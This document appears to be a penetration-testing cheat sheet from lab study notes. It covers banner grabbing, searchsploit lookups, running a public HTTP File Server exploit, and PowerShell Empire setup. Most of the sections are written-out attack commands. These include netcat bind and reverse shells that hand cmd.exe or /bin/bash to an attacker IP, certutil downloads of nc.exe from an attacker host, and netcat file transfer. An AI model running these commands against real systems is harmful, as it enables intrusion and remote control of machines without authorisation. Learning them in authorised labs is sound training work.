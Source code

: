 <h2>Banner Grabbing</h2>
An information gathering technique used by pen testers to enum info regarding the target OS and services running on open ports.

```
nmap -sC -sV -O -T3 ip -oX output.xml
```

```
nmap -sV --script=banner 192.8.94.3
```

```
nc 192.8.94.3 22
```

```
nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.152.25.3
```

```
ls -al /usr/share/nmap/scripts | grep vuln
```


`www.packetstormsecurity.com`
`rapid7`
`googlehacking database `

```
searchsploit vsftpd
```

```
searchsploit -t vsftpd
```

Command to copy the exploit into your current working directory
```
searchsploit -m /PATH
```

commands can be used to display the Exploit-db URL instead of the EDBID?
```
searchsploit -w vsftdp
```

<h2>Fixing Exploitation</h2>
```
searchsploit HTTP File Server 2.3
```
```
searchsploit -m 39161
```
```
vim 39161.py
```
```
cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop/
```
```
python -m SimpleHTTPServer 80
```
```
nc -nvlp 1234
```
```
python 39161.py demo.ine.local 80
```

<h2>Bind & Reverse Shell </h2>

TCP
```
nc -nv ip port
```

UDP
```
nc -nvu ip port 
```

Listen
```
nc -nlvp 13444  
```
Windows:
```
nc.exe -nv ip port
```

Receiver:
```
nc -nlvp Port > text.txt
```

Sender:
```
nc -nv <ReceiverIP> Port < test.txt 
```


<h3>Bind Shell</h3>
Disadvantage: Need to Setup In Client Machine.

Netcat Client(Attacker) ------------------> Netcat Listerner(Target) {cmd.exe}{/bin/bash}

Target:
```
certutil -urlcache -split -f https://AttackerIP/nc.exe nc.exe
```

```
certutil -urlcache -f http://10.10.31.2/nc.exe nc.exe
```

```
nc.exe -nlvp Port -e cmd.exe
```

Attacker:
```
nc -nv TargetIP Port

whoami
dir
```


if Attacker machine is windows  and target is linux Kali
Target:
```
nc -nlvp port -c /bin/bash
```

Attacker:
```
nc.exe -nv TargetIP Port

ls
id
```

<h3> Reverse Shell </h3>
Advantage: no NEED to setup in Client Machine.

Netcat Listerner(Attacker) <------------------------- Netcat Client(Target)

Attacker:
```
nc -nlvp 1234
```

Target:
```
nc.exe -nv AttackerIP -e cmd.exe
```

This has a alternative of using powershell or any other command.

<h2>Reverse Shell Cheetsheet </h2>

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

```
www.revshells.com
```

<h3>Exploitation Frameworks</h3>

<h4> MSF Framework </h4>

<h4> PowerShell Empire </h4>
```
	sudo apt-get update && sudo apt-get install powershell-empire starkiller -y 
```


Now we start backend of powershell empire
```
sudo powershell-empire server
```

Server>

```
sudo powershell-empire client
```

(Empire) >

```
listerns

agents

help

intract <machineName>
```
agents - no of machines compramised

open starkill in GUI

username : empireadmin
password : password123

https://www.youtube.com/watch?v=Mif2KyhA6I4&t=41s

